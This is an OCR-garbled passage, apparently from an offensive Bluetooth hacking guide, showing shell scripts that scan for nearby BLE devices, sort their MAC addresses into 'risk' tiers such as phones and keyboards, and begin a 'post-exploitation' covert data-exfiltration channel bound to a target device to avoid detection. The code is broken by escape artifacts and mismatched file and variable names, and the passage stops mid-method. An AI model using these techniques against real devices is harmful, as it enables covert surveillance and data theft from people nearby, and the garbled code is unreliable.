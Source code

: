 \# BLE scanning\
sudo hcitool lescan \> ble_scan.txt &

sleep 300 \# 5-minute discovery phase\
kill \$BLUELOG_PID\
killall hcitool

echo "Discovery complete. Analyzing results..."

#### **Phase 2: Risk Classification**

\# Step 2: Device categorization and risk assessment\
echo "Step 2: Categorizing discovered devices..."

\# Create device categories\
mkdir -p device_categories/{high_risk,medium_risk,low_risk,unknown}

\# Parse and categorize devices\
while read line; do\
if \[\[
$line \=\~ (\[0-9A-F\]{2}:){5}\[0-9A-F\]{2} \]\]; then  mac=$(echo
$line | grep \-oE '(\[0-9A-F\]{2}:){5}\[0-9A-F\]{2}')  name=$(echo
\$line \| sed 's/.\*\\t//')

        \# High-risk devices (keyboards, mice, phones)  
        if echo "$name" | grep \-iE "(keyboard|mouse|phone|iphone|samsung|pixel)"; then  
            echo "$mac \- $name" \>\> device\_categories/high\_risk/devices.txt  
        \# Medium-risk devices (printers, speakers)  
        elif echo "$name" | grep \-iE "(printer|speaker|headset|audio)"; then  
            echo "$mac \- $name" \>\> device\_categories/medium\_risk/devices.txt  
        \# Low-risk devices (fitness trackers, etc.)  
        elif echo "$name" | grep \-iE "(fitbit|tracker|watch)"; then  
            echo "$mac \- $name" \>\> device\_categories/low\_risk/devices.txt  
        else  
            echo "$mac \- $name" \>\> device\_categories/unknown/devices.txt  
        fi  
    fi  

done \< active_scan.txt

## **Post-Exploitation Techniques**

### **Data Exfiltration via Bluetooth**

#### **Method 1: Covert Data Channel Establishment**

#!/bin/bash\
\# Establish covert Bluetooth data channel

\# Step 1: Create hidden RFCOMM service\
echo "Establishing covert data channel..."

\# Bind to high-numbered channel to avoid detection\
sudo rfcomm bind 10 \$TARGET_MAC 30
